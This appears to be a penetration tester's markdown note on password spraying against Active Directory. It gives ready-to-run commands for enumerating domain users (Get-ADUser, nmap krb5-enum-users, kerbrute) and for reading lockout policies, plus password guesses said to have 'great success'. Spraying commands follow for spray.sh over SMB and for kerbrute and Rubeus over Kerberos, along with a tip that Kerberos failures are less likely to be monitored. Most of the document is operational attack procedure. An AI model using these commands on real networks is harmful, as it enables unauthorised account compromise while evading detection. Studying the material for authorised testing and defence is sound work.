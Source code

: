 # Active Directory - Passwords spraying

Password spraying refers to the attack method that takes a large number of
usernames and attempts authentication with a limited number of likely passwords.

This method avoids accounts lockouts which is usually implemented on Active
Directory authentication.

Password spraying all domain users and attempting lateral or vertical movement
with the compromised accounts is often more effective than targeting specific
users from the get-go.

### Usernames list

###### From domain controllers

To gather a list of usernames from the domain controllers a domain account is
needed.

The `Get-ADUser` cmdlet of the Powershell Active-Directory module can be used:

```
Get-ADUser -Filter *  | ft SamAccountName | Out-File <USERNAMES_FILE>
Get-ADUser -Server <DC> -Filter *  | ft SamAccountName | Out-File <USERNAMES_FILE>
```

To count the number of user in the domain:

```
cat <USERNAMES_FILE> | Measure-Object
```

For more details on possible options, refer to the Active Directory - Domain
Recon note.

###### LDAP Anonymous and NULL bind

Misconfigured LDAP servers may be exploited to leak the usernames of the domain
account.  

To detect and exploit LDAP Anonymous and NULL bind refer to the `L7 - LDAP`
note.

###### Kerberos bruteforce

Kerberos can be used to enumerate domain accounts by making TGT requests, with
no pre-authentication, to the KDC with out the need of having a domain joined
account.

Indeed, whenever an username specified for a TGT request does not exist, the
KDC will respond with a  `PRINCIPAL UNKNOWN` error. If the account does exist,
the KDC will request a pre authentication before delivering the TGT.

Note that if an account has the value `DONT_REQ_PREAUTH` in the
`UserAccountControl` attribute, a TGT will be delivered with out pre
authentication which allows for the offline brute-forcing of the TGT. Refer to
the `Active Directory - AS-REP Roasting` note for more information on the
attack.

`Rubeus` (Zer1to’s fork: https://github.com/Zer1t0/Rubeus), `nmap`'s
`krb5-enum-users` script and `Kerbrute` can be used to  enumerate usernames
through Kerberos:

```
nmap -v -p 88 --script krb5-enum-users --script-args krb5-enum-users-realm='kerbrealm',userdb=<WORDLIST_USER> <KDC_IP | KDC_HOSTNAME>

kerbrute userenum [--dc <KDC_IP | KDC_HOSTNAME>] <DOMAIN> <WORDLIST_USERS>

# Will conduct password bruteforcing as well
Rubeus.exe brute /users:<WORDLIST_USERS> /passwords:<WORDLIST_PASSWORDS> /domain:<DOMAIN> /outfile:<RESULT_FILE>
```

### Passwords list

For the success of a password attack, a good password list is essential.

The passwords used must satisfied the password policy defined for the domain. To
retrieve the password policy enforced, refer to the Active Directory - Domain
Recon note.   

The following passwords have been tried with great success:

```
<COMPANY_NAME><YEAR>
<COMPANY_NAME><YEAR>!
Bonjour<YEAR>
Bonjour<YEAR>!
Azerty1234
Azerty1234!
```

### Password and account lockout policies

The following commands can be used to determine the password and account
lockout policies enforced on the domain:

```
$RootDSE = Get-ADRootDSE
$RootDSE = Get-ADRootDSE -Server <DC> -Credential <PSCredential>

# Password policy
Get-ADObject $RootDSE.defaultNamingContext -Property minPwdAge, maxPwdAge, minPwdLength, pwdHistoryLength, pwdProperties

# Account lockout policy
Get-ADObject $RootDSE.defaultNamingContext -Property lockoutDuration, lockoutObservationWindow, lockoutThreshold
```

Default password complexity rule (pwdProperties : 1) of Active Directory
requires that passwords contain characters from three of the following five
categories:

  - Uppercase characters of European languages
  - Lowercase characters of European languages
  - Base 10 digits (0 through 9)
  - Nonalphanumeric characters: ```~!@#$%^&*_-+=\`|\(){}[]:;"'<>,.?/```
  - Any Unicode character that is categorized as an alphabetic character but is
    not uppercase or lowercase (includes Unicode characters from Asian
    languages)

Note that, for some reason, the minPwdAge and maxPwdAge password policy
properties and the lockout time is expressed in negative nanoseconds and must
be divided by "-600000000" to be converted in effective
minutes of lockout.

The following Powershell one-liner can be used to this end:

```
X / - 600000000 / (60*24)

$AccountPolicy | Select @{n="PolicyType";e={"Account Lockout"}}, DistinguishedName, @{n="lockoutDuration";e={"$($_.lockoutDuration / -600000000) minutes"}}, @{n="lockout
ObservationWindow";e={"$($_.lockoutObservationWindow / -600000000) minutes"}}, lockoutThreshold | Format-List
```

### Spraying

###### Over SMB

`spray.sh` is a bash scrip that can be used to carry out Active Directory
passwords spraying. It will conduct the bruteforce over `SMB` using the
`rpcclient` utility.   

It can use the password policy of the domain as input to prevent accounts
lockout.

```
spray.sh -smb <DC_IP> <WORDLIST_USERS> <WORDLIST_PASSWORDS> <ATTEMPTS_PER_LOCKOUT_PERIOD> <LOCKOUT_PERIOD_IN_MINUTES> <DOMAIN>

# Example
spray.sh -smb 192.168.0.1 users.txt passwords.txt 1 35 SPIDERLABS
```

To retrieve the obtained accounts:

```
grep 'Authority Name' logs/spray-logs.txt
grep -v NT_STATUS_LOGON_FAILURE logs/spray-logs.txt
```

###### Over Kerberos

Note that log-on failures over Kerberos do not generate the classical Windows
Security Log `Event ID 4625: An account failed to log on`. Indeed, the failures
are logged as Windows Security Log `Event ID 4771: Kerberos pre-authentication
failed`, that have an higher chance of not being monitored. It will still
howerver increment the failed login count and lock out accounts.

`Rubeus` (Zer1to’s fork: https://github.com/Zer1t0/Rubeus) and `Kerbrute` can
be used to conduct passwords spraying attacks through Kerberos:

```
kerbrute passwordspray [--dc <KDC_IP | KDC_HOSTNAME>] <DOMAIN> <WORDLIST_USERS> '<PASSWORD>'
# Username and password combinations in the format username:password
kerbrute bruteforce [--dc <KDC_IP | KDC_HOSTNAME>] <DOMAIN> <WORDLIST_USERS_PASSWORDS>

Rubeus.exe brute /users:<WORDLIST_USERS> /passwords:<WORDLIST_PASSWORDS> /domain:<DOMAIN> /outfile:<RESULT_FILE>
```
